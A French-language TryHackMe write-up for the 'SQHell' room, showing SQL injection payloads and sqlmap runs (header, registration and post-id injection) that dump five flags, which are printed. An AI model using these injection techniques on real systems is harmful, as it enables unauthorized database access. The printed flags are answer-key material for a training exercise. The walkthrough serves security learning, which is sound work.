









# SQHell #

## Task 1 Find all the Flags! ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.136.88 sqhell.thm' >> /etc/hosts" 
[sudo] Mot de passe de tim : 
```

**Flag 1**



 Dans la page login on fait un simple injection en mettant : 'or 1=1 -- - dans le champ username et password.  



Le flag est : THM{FLAG1:E786483E5A53075750F1FA792E823BD2}

**Flag 2**



On nous que dans les termes et conditions que l'on enregistre l'ip pour des objectifs d'analyse, ceci peut être un point d'entrée d'une injection.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap --dbms mysql --headers="X-forwarded-for:1*" -u http://sqhell.thm/ -D sqhell_1 -T flag --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.5.10#stable}
|_ -| . [,]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:11:42 /2021-10-30/

...
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG2:C678ABFE1C01FCA19E03901CEDAB1D15} |
+----+---------------------------------------------+

...
```

Avec sql map on fait un injection sur la redirection de l'ip et il récupère le flag.  
Le flag est : THM{FLAG2:C678ABFE1C01FCA19E03901CEDAB1D15}    

**Flag 3**

   
   

Sur la page d'enregistrement on teste un nom est on intercepte la requête avec Burp.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap -r register.req --dbms mysql -D sqhell_3 -T flag --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.5.10#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:29:44 /2021-10-30/

[20:29:44] [INFO] parsing HTTP request from 'register.req'
[20:29:45] [INFO] testing connection to the target URL
...
[20:31:03] [INFO] retrieved: 1
[20:31:04] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                                                                      
THM{FLAG3:97AEB3B28A4864416718F3A5FAF8F308}
[20:33:50] [INFO] retrieved: 1
Database: sqhell_3
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG3:97AEB3B28A4864416718F3A5FAF8F308} |
+----+---------------------------------------------+

[20:33:53] [INFO] table 'sqhell_3.flag' dumped to CSV file '/home/tim/.local/share/sqlmap/output/sqhell.thm/dump/sqhell_3/flag.csv'
[20:33:53] [INFO] fetched data logged to text files under '/home/tim/.local/share/sqlmap/output/sqhell.thm'
...
```

Sqlmap extrait le flag sur l'injection sql faite sur l'utilisateur et extrait le flag.   
Le flag est : THM{FLAG3:97AEB3B28A4864416718F3A5FAF8F308}   

**Flag 4**

  
  

Ici on injection sql imbriquée.   
Le flag est : THM{FLAG4:BDF317B14EEF80A3F90729BF2B426BEF}   

**Flag5**   

 
  

Ici on récupère un requête sur les posts sur le paramètre id, on récupère la requête avec Burp.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap -r view.req --dbms mysql -D sqhell_5 -T flag --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.5.10#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:49:46 /2021-10-30/

[20:49:46] [INFO] parsing HTTP request from 'view.req'
[20:49:46] [WARNING] it appears that you have provided tainted parameter values ('id=-1 union select 1,2,user(),4') with most likely leftover chars/statements from manual SQL injection test(s). Please, always use only valid parameter values so sqlmap could be able to run properly


[*] ending @ 20:49:49 /2021-10-30/

tim@kali:~/Bureau/tryhackme/write-up$ sqlmap -r view.req --dbms mysql -D sqhell_5 -T flag --dump
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.5.10#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:49:51 /2021-10-30/

[20:49:51] [INFO] parsing HTTP request from 'view.req'
[20:49:51] [WARNING] it appears that you have provided tainted parameter values ('id=-1 union select 1,2,user(),4') with most likely leftover chars/statements from manual SQL injection test(s). Please, always use only valid parameter values so sqlmap could be able to run properly
are you really sure that you want to continue (sqlmap could have problems)? [y/N] Y
[20:49:52] [INFO] testing connection to the target URL
...
[20:50:29] [INFO] fetching entries for table 'flag' in database 'sqhell_5'
Database: sqhell_5
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG5:B9C690D3B914F7038BA1FC65B3FDF3C8} |
+----+---------------------------------------------+
...
```

On sqlmap on trouve le dernier flag qui est : THM{FLAG5:B9C690D3B914F7038BA1FC65B3FDF3C8}    

  
